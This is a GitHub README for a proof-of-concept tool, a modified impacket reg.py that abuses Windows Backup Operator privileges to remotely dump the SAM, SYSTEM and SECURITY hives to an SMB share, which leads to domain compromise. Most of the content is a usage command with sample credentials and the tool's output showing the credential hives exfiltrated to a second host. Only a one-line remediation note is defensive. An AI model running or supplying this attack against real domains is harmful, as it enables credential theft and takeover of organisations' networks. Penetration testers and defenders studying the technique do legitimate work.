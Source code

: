 # Backup Operator Registry Backup to Domain Compromise
A simple POC that abuses Backup Operator privileges to remote dump SAM, SYSTEM, and SECURITY hives.

Research credit to:
- [@filip_dragovic](https://twitter.com/filip_dragovic)
- Ported from [@mpgn](https://twitter.com/mpgn_x64) Windows [PoC](https://github.com/mpgn/BackupOperatorToDA)

## Usage
This proof of concept is a modified version of impacket/examples/reg.py and will work with the most recent impacket release installed. All supported impacket authentication mechanisms will work.

```
root@kali:~# python3 reg.py jsmith:'Spring2021'@10.0.229.1 backup -p '\\10.0.220.51\share'
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Dumping SAM hive to \\10.0.220.51\share\SAM
Dumping SYSTEM hive to \\10.0.220.51\share\SYSTEM
Dumping SECURITY hive to \\10.0.220.51\share\SECURITY
```

![Proof](backup_dc_hive.png)

## Remediation:
Treat `Backup Operators` domain group as Domain Adminstrators and other Tier 0 resources 
